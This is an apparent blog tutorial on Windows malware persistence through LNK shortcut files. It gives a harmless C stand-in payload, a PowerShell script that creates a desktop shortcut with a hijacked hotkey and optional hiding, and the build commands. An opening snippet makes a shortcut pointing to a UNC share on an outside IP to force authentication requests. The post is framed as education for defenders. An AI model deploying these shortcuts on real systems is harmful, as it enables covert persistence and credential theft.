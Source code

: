 
##
#
https://cocomelonc.github.io/persistence/2023/12/10/malware-pers-23.html
#
https://github.com/dievus/lnkbomb
#
https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence
#
##

```
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\Common Applications\Notepad.lnk")
$lnk.TargetPath = "\\10.10.16.33\test"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the dir this file lives in will perform an authentication request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```




Malware development: persistence - part 23. LNK files. Simple Powershell example.

3 minute read

﷽

Hello, cybersecurity enthusiasts and white hackers!

pers

This post is based on my own research into one of the more interesting malware persistence tricks: via Windows LNK files.
LNKPermalink

According to Microsoft, an LNK file serves as a shortcut or “link” in Windows, providing a reference to an original file, folder, or application. For regular users, these files serve a meaningful purpose, facilitating file organization and workspace decluttering. However, from an attacker’s perspective, LNK files take on a different significance. They have been exploited in various documented attacks by APT groups and, to my knowledge, remain a viable option for activities such as phishing, establishing persistence, executing payloads.

Do you know that Windows shortcuts can be registered using a shortcut key in terms of execution? This is the main trick for malware persistence in this case.
practical examplePermalink

Let’s say we have a “malware”. As usually, meow-meow messagebox application hack.c:

/*
hack.c
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/12/10/malware-pers-23.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}

And then, just create powershell script for create LNK file with the following properties:
```
# Define the path for the shortcut on the desktop
$shortcutPath = "$([Environment]::GetFolderPath('Desktop'))\Meow.lnk"

# Create a WScript Shell object
$wshell = New-Object -ComObject Wscript.Shell

# Create a shortcut object
$shortcut = $wshell.CreateShortcut($shortcutPath)

# Set the icon location for the shortcut
$shortcut.IconLocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"

# Set the target path and arguments for the shortcut
$shortcut.TargetPath = "Z:\2023-12-10-malware-pers-23\hack.exe"
$shortcut.Arguments = ""

# Set the working directory for the shortcut
$shortcut.WorkingDirectory = "Z:\2023-12-10-malware-pers-23"

# Set a hotkey for the shortcut (e.g., CTRL+W)
$shortcut.HotKey = "CTRL+W"

# Set a description for the shortcut
$shortcut.Description = "Not malicious, meow-meow malware"

# Set the window style for the shortcut (7 = Minimized window)
$shortcut.WindowStyle = 7

# Save the shortcut
$shortcut.Save()

# Optionally make the link invisible by adding 'Hidden' attribute
# (Get-Item $shortcutPath).Attributes += 'Hidden'
```

As you can see, the logic is pretty simple. We simply create a shortcut on the desktop that has a hotkey specified: CTRL+W. Of course, in real attack scenarios it could be something like CTRL+C, CTRL+V or CTRL+P, etc.

For example, if you create a shortcut for Paint, it does not have any hotkey specified:

pers

    Explorer restricts shortcut support to commands beginning with CTRL+ALT. Additional sequences must be set programmatically through COM.

demoPermalink

Let’s go to see everything in action. First of all, compile our “malware”:

x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive

pers

For checking correctness, run it:

.\hack.exe

pers

The just run our powershell script for persistence:

Get-Content pers.ps1 | PowerShell.exe -noprofile -

pers

As a result, Meow LNK file is created successfully.

If we look at its properties, everything is ok:

pers

Finally just run it and try to trigger CTRL+W hotkey:

pers

pers

As you can see, everything worked perfectly as expected! =^..^= :)

This technique is used by APT groups like APT28, APT29, Kimsuky and software like Emotet in the wild. In all honesty, this method is widely employed and widespread due to its extreme convenience in deceiving the victims.

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.

Many thanks to my friend and colleague Anton Kuznetsov, he reminded me of this technique when he presented one of his most amazing talks.

    This is a practical case for educational purposes only.

ATT&CK MITRE: T1204.001
APT28
APT29
Kimsuky
Emotet
MSDN: Shell Link (.LNK) Binary File Format
Malware persistence: part 1
source code in github
